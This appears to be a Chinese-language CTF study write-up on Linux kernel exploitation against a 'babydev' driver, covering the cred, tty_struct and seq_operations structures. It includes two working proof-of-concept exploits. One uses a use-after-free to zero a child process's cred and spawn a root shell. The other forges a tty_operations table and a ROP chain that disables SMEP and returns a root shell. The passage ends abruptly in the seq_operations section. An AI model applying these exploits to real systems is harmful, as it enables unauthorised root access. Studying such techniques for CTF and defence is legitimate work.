 环境是 linux 4.4.72，比较老的一个版本。

## 结构体总结

### cred

当创建一个新进程时，内核会为其申请一个 struct cred 结构体，用于存放进程信息。

cred 结构体内容如下：

```c
// 结构体大小 0xa8
struct cred {
	atomic_long_t              usage;                /*     0     8 */
	kuid_t                     uid;                  /*     8     4 */
	kgid_t                     gid;                  /*    12     4 */
	kuid_t                     suid;                 /*    16     4 */
	kgid_t                     sgid;                 /*    20     4 */
	kuid_t                     euid;                 /*    24     4 */
	kgid_t                     egid;                 /*    28     4 */
	kuid_t                     fsuid;                /*    32     4 */
	kgid_t                     fsgid;                /*    36     4 */
	unsigned int               securebits;           /*    40     4 */
	
	/* XXX 4 bytes hole, try to pack */
	
	kernel_cap_t               cap_inheritable;      /*    48     8 */
	kernel_cap_t               cap_permitted;        /*    56     8 */
	/* --- cacheline 1 boundary (64 bytes) --- */
	kernel_cap_t               cap_effective;        /*    64     8 */
	kernel_cap_t               cap_bset;             /*    72     8 */
	kernel_cap_t               cap_ambient;          /*    80     8 */
	unsigned char              jit_keyring;          /*    88     1 */
	
	/* XXX 7 bytes hole, try to pack */
	
	struct key *               session_keyring;      /*    96     8 */
	struct key *               process_keyring;      /*   104     8 */
	struct key *               thread_keyring;       /*   112     8 */
	struct key *               request_key_auth;     /*   120     8 */
	/* --- cacheline 2 boundary (128 bytes) --- */
	void *                     security;             /*   128     8 */
	struct user_struct *       user;                 /*   136     8 */
	struct user_namespace *    user_ns;              /*   144     8 */
	struct ucounts *           ucounts;              /*   152     8 */
	struct group_info *        group_info;           /*   160     8 */
	union {
		int                non_rcu;              /*   168     4 */
		struct callback_head rcu;                /*   168    16 */
	};                                               /*   168    16 */

/* size: 184, cachelines: 3, members: 26 */
/* sum members: 173, holes: 2, sum holes: 11 */
/* last cacheline: 56 bytes */
};
```

最常见的打法就是把这个结构体的 uid / gid / suid / sgid 等全部改成 0，使得该子进程拥有root权限。

不过这个结构体在内核 4.5 之后，会使用单独的 叫做 `cred_jar` 的 kmem-cache 来独立分配，普通的 UAF 无法拿到这个结构体，也就没办法打了。


举个例子，在 `_do_fork` 上下断点，`fork` 函数会调用 `prepare_creds` 为子进程创建 cred 结构体，而 `prepare_creds` 会调用 `kmem_cache_alloc`：

![fork调用栈](https://pic1.imgdb.cn/item/68ecc757c5157e1a886c8f20.png)

然后 `p (struct kmem_cache)*0xffff880002c01800` 可以观察到这个函数是从 `kmalloc-192` 取 obj 的。

poc 如下：

```c
#include <kernel.h>

int main() {
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);
    ioctl(fd1, 0x10001, 0xa8);
    close(fd1);  // uaf
    pid_t pid = fork();
    if (pid < 0) {
        error("fork failed, pid = %d", pid);
    } else if (pid == 0) {
        info("child pid => %d", getpid());
        char zero[30] = {0};
        write(fd2, zero, 28);
        if (getuid() == 0) {
            success("getshell");
            system("/bin/sh");
        }
    } else {
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```


### tty_struct


当用户态执行 `open("dev/ptmx",2);` 或者 `open("/dev/ptmx", O_RDWR | O_NOCTTY)` 后，内核中的处理过程如下图所示：

![tty_struct 分配流程](https://pic1.imgdb.cn/item/68ecca5fc5157e1a886c9eca.png)

其中，`alloc_tty_struct` 会从 `kmalloc-1024` 里取 obj 以满足 `tty_struct` 的 0x2e0 的内存需求。

`open` 操作后，用户态获得一个文件描述符 `fd`。用户态可对该 `fd` 进行 `tty_operations` 中包含的所有操作，如 `write`\`ioctl` 等。

如果利用漏洞改掉 `tty_struct` 中 `ops` 指向的函数表，就能实现控制流劫持。

如何确定申请到的 `tty_struct` 的位置呢？可以通过 `cat /proc/kallsyms | grep "ptm_unix98_lookup"` 找到 `ptm_unix98_lookup` 的位置，然后 `search -8` 找到 rwx 段上的地址，就能定位到 `ptm_unix98_ops`，然后再根据 `ptm_unix98_ops` 定位即可，那个地址就是 `tty_operations` 字段。

另外，0x5401 是 `tty_struct` 的魔数。


调试时，比如说 hook 的是 `pty_write` 函数，这个函数会调用 `n_tty_write`，在 n_tty_write+892 处下断点即可断在调用 hook 的函数前。

还有一种方法是使用硬件访问断点 `rwatch`，比如 `rwatch *A`，A 是 `pty_write` 函数地址。

```c
#include <kernel.h>


#define mov_rsp_rax 0xffffffff818855cf
#define pop_rsp_ret 0xffffffff8101ebc5
#define pop_rax_ret 0xffffffff8101c216
#define mov_cr4_rax_pop_ret 0xffffffff8100f034
#define swapgs_ret 0xffffffff81885588
#define iretq 0xffffffff81884177


int main() {
    save_status();

    unsigned long rop_chain[30] = {0};
    int index = 0;
    rop_chain[index++] = pop_rax_ret;
    rop_chain[index++] = 0x6f0;
    rop_chain[index++] = mov_cr4_rax_pop_ret;
    rop_chain[index++] = 0;
    rop_chain[index++] = (unsigned long)get_root;
    rop_chain[index++] = swapgs_ret;
    rop_chain[index++] = iretq;
    rop_chain[index++] = (unsigned long)get_root_shell;
    rop_chain[index++] = user_cs;
    rop_chain[index++] = user_rflags;
    rop_chain[index++] = user_sp;
    rop_chain[index++] = user_ss;


    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);
    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);  // uaf


    int fd_tty = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    if (fd_tty < 0) {
        error("open ptmx failed: %d", fd_tty);
    }
    success("fd_tty => %d\n", fd_tty);

    unsigned long *mem[4];
    unsigned long fake_ops[30] = {0, 1, 2, 3, 4, 5, 6, 7};
    read(fd2, mem, 32);
    for (int i = 0; i < 4; ++i)
        info("0x%llx", mem[i]);
    // 修改 ops 为 fake_ops
    mem[3] = fake_ops;
    fake_ops[0] = pop_rsp_ret;  // 继续迁移到 rop_chain 上
    fake_ops[1] = (unsigned long)rop_chain;
    fake_ops[7] = mov_rsp_rax;  // pty_write，注意到 rax 为 fake_ops 地址，可以用来栈迁移

    write(fd2, mem, 0x38);

    char a[32];
    write(fd_tty, a, 32);  // 触发

    close(fd_tty);
    close(fd2);
    return 0;
}
```

### seq_operations

在用户态执行 `open("/proc/self/stat",0);` 后，内核中的调用过程如下图所示：

![seq](https://pic1.imgdb.cn/item/68ed244fc5157e1a886d07b5.png)

内核中会调用 `single_open()` 函数，而该函数中会为 `struct seq_operations` 结构体申请一段内存空间（0x20 字节大小，对应 `kmalloc-32`）。

返回的结构体里有四个字段：

```c
struct seq_operations {
	void *                     (*start)(struct seq_file *, loff_t *); /*     0     8 */
	void                       (*stop)(struct seq_file *, void *); /*     8     8 */
	void *                     (*next)(struct seq_file *, void *, loff_t *); /*    16     8 */
	int                        (*show)(struct seq_file *, void *); /*    24     8 */

/* size: 32, cachelines: 1, members: 4 */
/* last cacheline: 32 bytes */
};

其中 `start` 和 `stop` 都是可以被劫持的，当用户态对该 `fd` 进行读操作 `read(fd,buf,size)` 时，在内核中会调用 `seq_operations->start` 函数指针；随后也会调用 `seq_operations->stop` 函数指针` 


